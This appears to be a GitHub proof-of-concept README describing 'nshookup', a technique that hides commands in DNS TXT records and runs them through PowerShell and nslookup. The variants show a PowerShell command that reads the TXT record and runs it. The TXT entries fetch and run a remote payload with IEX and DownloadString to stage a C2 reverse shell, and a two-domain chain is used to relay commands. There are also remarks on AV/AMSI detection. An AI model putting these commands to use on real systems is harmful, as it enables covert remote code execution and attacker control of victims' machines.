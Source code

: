 ### Variant 0.1
Commands are stored as TXT entries on a DNS server and requested via nslookup (a.k.a "nshookup").<br><br>
Client executing:.<br>
`powershell (nslookup -q=txt bad-domain.com)[5]`<br><br>
DNS Server TXT entry:<br>
`ping google.com`<br><br>
*EXPLANATION: nslookup.exe calls the TXT entry through DNS as subprocess from powershell. This way the stored commands get transmitted over DNS and executed in the context of the current (powershell) process. The number in the square brackets stands for the index (five being the first possible one) of the command. It is also possible to use "[-1]" should there be only a single command available as TXT entry.*<br><br>

The outcome is `powershell ping google.com` being executed in the current session on the clients system.

![GRAPHIC_1 1](https://github.com/Dood3/PoCs/assets/93183445/d550b7d7-db51-42da-9834-b89f5c792bfb)



### Variant 0.2
-> Commands are stored as TXT entries on a DNS server to host a payload/stager for a  reverse connection to a C2 server (Havoc, Empire, etc.).<br><br>
Client executing:<br>
`powershell (nslookup -q=txt bad-domain.com)[5]`<br><br>
DNS Server TXT entry:<br>
`IEX (New-Object Net.WebClient).DownloadString('http:/server/payload.html')`<br><br>
*EXPLANATION: Again, the TXT enty is interpreted as legitimate command through parent & child process being powershell and a DNS request respectively.
The file hosting the payload is not bound to any file formats. A simple file without suffix will work. 
This request will probably trigger AV (AMSI). If "IEX" doesn't get caught, the delivered payload itself most likely will.*<br>

![GRAPHIC_2 1](https://github.com/Dood3/PoCs/assets/93183445/3954f3ed-4196-497e-a369-14a5d71355d9)



### Variant 0.3
-> Commands are stored as TXT entries on a domain1.com to host another nslookup command requesting entries from domain2.com.<br><br>
Client executing:<br>
`powershell (nslookup -q=txt bad-domain.com)[5]`<br><br>
DNS Server TXT entry (the index may vary):<br>
`powershell (nslookup -q=txt bad-domain2.com)[5]`<br><br>
DNS Server TXT entry on bad-domain_2.com:<br>
`IEX (New-Object Net.WebClient).DownloadString('http:/server/payload.html')`<br><br>
*EXPLANATION: The commands can be chained together with a combination of dns servers. The client requests the first domain, which in return requests the actual commands on the second server.*<br>
This will most likely trigger AV (AMSI).<br>

1. `powershell (nslookup -q=txt bad-domain.com)[5]`<br>
2. `powershell (nslookup -q=txt bad-domain_2.com)[5]`<br>
3. `Command gets delivered to Client (over dns)`<br>
4. `Reverse shell phoning home`<br>

![GRAPHIC_3 1](https://github.com/Dood3/PoCs/assets/93183445/c8fe7f80-361c-4ccc-9249-8c345ce14351)

<br><br><br><br><br><br><br>


*Icons:*<br>
<font size="1">
https://www.flaticon.com/free-icons/computer  <br>
https://icons8.com/icon/set/firewall-png/glyph-neue <br>
https://icons8.com/icons/set/computer <br> 
</font>

